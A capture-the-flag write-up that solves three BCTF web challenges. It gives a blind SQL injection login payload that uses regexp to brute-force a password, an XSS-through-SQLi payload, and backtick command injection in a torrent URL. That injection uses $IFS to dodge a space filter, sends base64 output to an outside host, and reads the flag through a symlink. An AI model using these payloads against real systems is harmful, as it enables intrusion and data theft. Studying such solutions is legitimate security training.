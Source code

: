 `http://bctf.cn/#/challenge`
Participated as Ad Victoriam

## sqli_engine (200pt)

`http://104.197.7.111:8080/`

Just simple SQLi won't work on this level, because the given token is completely salted and encrypted.

The only way is to blind SQLi the password of the admin.

By bruteforcing the password using `regexp` operator, you will be able to solve this challenge.

```
Username: 1'='1
Password: '=password regexp '^BCTF{h~~~~~~
```

--

## webchat (325pt)

`http://146.148.60.107:9991/`

This challenge consists of both SQLi and XSS vulnerability.

First of all, you will be able to see that the javascript connects to the websocket and sends the data.

Since HTML tags are filtered completely, there is only one way to solve this challenge - by performing XSS through SQL injection.

```
Payload: stypr: 1'),((0x~~~~~~~)),('stypr: 1
the 0x~~~ hex data has to be the result in the form of "stypr: <script>document.location.~~~</script>", as the format of the record has to be "username: data".
```

--

## torrent_lover (233pt)


`http://218.2.197.253/index.php`

There is only one input to inject data and that was the input for the torrent URL address.

As we look further on how the torrents are read, we find out that the website uses `wget` to read data.

Considering that the `wget` is executed by `system()` function, we can think about injecting a grave accent (http://en.wikipedia.org/wiki/Grave_accent) in order to execute a shell command.

However, spaces are filtered from the `system()` command so you may have to use an internal field seperator to execute commands.

```http://stypr.com:33/stypr?id=`ls$IFS../flag%7Cbase64`#.torrent```

This would give you the base64-encoded output of ../flag directory listing, which is decoded as

```
flag
use_me_to_read_flag
```

As we analyze the `use_me_to_read_flag` binary by performing a reverse-engineering, we find out that the word `flag` is filtered by the binary.

By symlinking the flag and loading the symlinked file would pop out the flag.

```
http://stypr.com/stypr?id=`mkdir$IFS-p$IFS/tmp/stypr`#.torrent
http://stypr.com:33/stypr?id=`ln$IFS-s$IFS/var/www/flag/flag$IFS/tmp/stypr/stypr`#.torrent
http://stypr.com:33/stypr?id=`../flag/use_me_to_read_flag$IFS/tmp/stypr/stypr`#.torrent
```